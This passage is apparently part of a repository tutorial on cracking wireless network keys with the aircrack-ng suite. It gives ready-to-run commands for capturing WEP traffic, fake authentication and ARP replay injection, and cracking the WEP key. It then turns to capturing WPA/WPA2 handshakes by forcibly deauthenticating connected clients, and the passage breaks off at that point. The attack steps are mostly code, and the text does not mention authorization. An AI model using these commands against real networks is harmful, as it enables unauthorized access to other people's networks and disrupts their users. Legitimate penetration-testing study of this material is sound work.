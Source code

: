 ### Capture packets

To crack WEP, you need to capture packets from the target network. You can do
this using the following command:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" --write outputdump "$interface"
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets
into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a "$bssid" "$interface"
```

This will authenticate you to the network and allow you to capture more packets,
then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b "$bssid" "$interface"
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000),
you can crack the WEP key using the following command:

```bash
aircrack-ng outputdump
```

This will attempt to crack the WEP key using the captured packets. If
successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to
capture the handshake when a client connects to the network, so start the
airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel "$channel" --bssid "$bssid" --write out "$interface"
```

If a client is connected to the network, you will see the handshake in the
terminal. If not, you can use the following command to deauthenticate a client
and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a "$bssid" "$interface"
# or
sudo aireplay-ng --deauth 10 -a "$bssid" -c "$station" "$interface"
```
